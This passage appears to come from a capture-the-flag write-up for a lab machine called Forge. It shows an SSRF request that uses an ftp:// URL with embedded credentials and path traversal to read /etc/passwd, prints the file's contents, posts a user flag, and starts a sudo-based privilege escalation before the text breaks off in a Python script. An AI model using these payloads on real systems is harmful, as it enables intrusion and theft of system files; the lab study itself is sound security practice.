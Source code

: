 We dont know the user tho.. so lets just access /etc/passwd.. 

http://Admin.FoRge.Htb/upload?u=ftp://user:heightofsecurity123!@LoCaLhOsT//..//..//..//..//..//etc/passwd

Result : 

~~~
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:NoobHacker:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
ftp:x:113:118:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
~~~

<Mark> NOTE : When going back, paths need to be escaped (it didnt work with one forward slash, even tho it did work when accessing id_rsa.. weird) </Mark>
	
Apparently we didnt even need a name... The name is the same as ftp -> user.
	
We got the user flag..  > 839dd98a5b3f169b205f4b8718952641 

Privesc was straightforward.. 
* sudo -l to find what resources can be accesed with sudo and we find a python script..
~~~python
#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
~~~